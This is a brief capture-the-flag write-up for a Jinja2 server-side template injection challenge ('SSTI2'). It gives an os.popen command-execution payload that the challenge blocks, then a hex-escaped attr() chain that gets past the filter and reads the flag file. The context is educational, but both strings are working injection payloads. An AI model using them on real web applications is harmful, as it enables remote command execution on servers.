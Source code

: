 # SSTI2

This challenge is similar to `SSTI1`. However, there is a validation to prevent command execution.
```
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

![ssti2_1](./ssti2_1.png)

When I use a bypass technique, I can read the flag.
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
```

## References
- https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/
